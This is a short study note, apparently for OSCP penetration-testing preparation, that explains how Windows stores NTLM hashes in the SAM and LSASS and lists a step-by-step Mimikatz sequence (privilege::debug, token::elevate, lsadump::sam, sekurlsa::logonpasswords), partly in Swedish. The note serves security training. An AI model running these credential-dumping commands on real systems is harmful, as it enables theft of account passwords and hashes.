 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/h-password-attacks/5-mimikatz/"}
---
```


### Understanding NTLM and Mimikatz:
- Windows stores hashed passwords in the Security Account Manager (SAM)
- Rainbow Table Attack = precomputed hashes compared to hash (does not work with salting)
- Mimikatz
	- Because of the kernel having an exclusive lock on "C:\\Windows\\system32\\config\sam" it cannot be copied or moved. Mimikatz will bypass this.
	- Using the "sekurlsa" module it can also extract hashes from process memory at Local Security Authority Subsystem (LSASS).
		- LSASS is a process in Windows which handles and caches user authentication, password changes, and access token creation.
		- It is run by the SYSTEM account, which is even more privileged than Administrator.
	- Mimikatz need to be run as at least Administrator and have "SeDebugPrivilege" access enabled. It lets us debug or own and other users' processes.
	- Elevation to SYSTEM can happen through PsExec, or Mimikatz's token elevation function (which requires "SeImpersonatePrivilege", and that is on by default for admins).

--------------

### Mimikatz Usage:
1. Enumerate local users:
```
Get-LocalUser
```
2. Start Mimikatz as at least Administrator:
```
.\mimikatz.exe
```
4. Aktivera SeDebugPrivilege:
```
privilege::debug
```
5. Elevera till SYSTEM:
```
token::elevate
```
6. Kör arbiträrt kommando. Exempel:
```
lsadump::sam #Dumpar NTLM hashar från SAM.
sekurlsa::logonpasswords #Dumpar alla logon credentials som kan hittas (lsass).
```
7. Win!

- Alla Mimikatz-commands: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md#commands-list
